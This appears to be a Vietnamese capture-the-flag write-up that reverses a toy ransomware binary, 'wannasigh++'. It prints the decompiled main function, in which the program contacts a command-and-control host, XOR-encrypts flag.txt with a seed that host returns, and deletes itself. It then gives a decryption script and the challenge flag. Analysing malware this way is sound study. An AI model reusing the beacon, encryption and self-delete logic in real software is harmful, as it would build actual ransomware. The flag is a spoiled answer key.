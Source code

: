 # Challenge

<p align="center">
  <img src="./wanna1.png" alt="Entry point"/>
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  <img src="./wanna2.png" alt="Entry point"/>
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  <img src="./wanna3.png" alt="Entry point"/>
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  <img src="./wanna4.png" alt="Entry point"/>
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  <img src="./wanna5.png" alt="Entry point"/>
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`

# Rethinking
Bài này mình có 2 chỗ tới giờ mình vẫn chưa hiểu, mong các cao nhân có thể giúp mình hoàn thiện hơn =(((
  - Nếu để ý trong chương trình ta có đoạn chương trình nhỏ thế này:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

  Ngay khúc này, mình thực sự thắc mắc là `seed` truyền vô chắc chắn là `0x2a`, nhưng khi debug <i>lần đầu tiên</i>, mình lại ra một kết quả khác là `0x607a2592`, cũng chính là số mà server sẽ trả về cho mình
  - Mục đích mình in nghiêng cụm từ `lần đầu tiên` là vì khi minh debug lại chương trình, mình phát hiện ra rằng khi gửi request lên server lần thứ 2 liên tiếp trở đi, mình nhận một kết quả hoàn toàn khác so với lần đầu:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

  Mình phải chờ một khoảng thời gian lâu sau đó thì mình mới có thể nhận lại kết quả ban đầu. Lúc này mình thắc mắc là do bên server nó cố tình code như thế, hay là do mình đã chưa hiểu gì đó về mấy cái mạng network này @@, hoặc có thể có đoạn nào đó trong bin mình đã đọc chưa kĩ =((((
